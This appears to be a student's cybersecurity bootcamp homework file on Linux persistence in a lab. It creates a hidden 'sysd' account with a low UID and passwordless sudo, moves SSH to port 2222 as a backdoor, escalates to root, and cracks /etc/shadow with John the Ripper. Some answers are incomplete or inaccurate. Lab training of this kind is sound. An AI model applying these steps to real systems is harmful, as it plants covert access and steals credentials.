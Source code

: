 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `adduser sysd`

2. Give your secret user a password: 
    - `sysd`

3. Give your secret user a system UID < 1000:
    - `usermod -u 420 sysd`

4. Give your secret user the same GID:
   - `groupmod -g 420 sysd`

5. Give your secret user full `sudo` access without the need for a password:
   - `visudo`
   - ` ALL= (ALL) NOPASSWD: ALL`

6. Test that `sudo` access works without your password:

    ```
    sudo -l
    User sysd may run the following commands:
    (ALL) NOPASSWD: ALL
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```
    sudo nano /etc/ssh/sshd_config
    semanage port -a -t ssh_port_t -p tcp 2222
    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `systemctl restart ssh.service`

2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    - `sudo su`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `sudo su`
    - `john /etc/shadow`

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

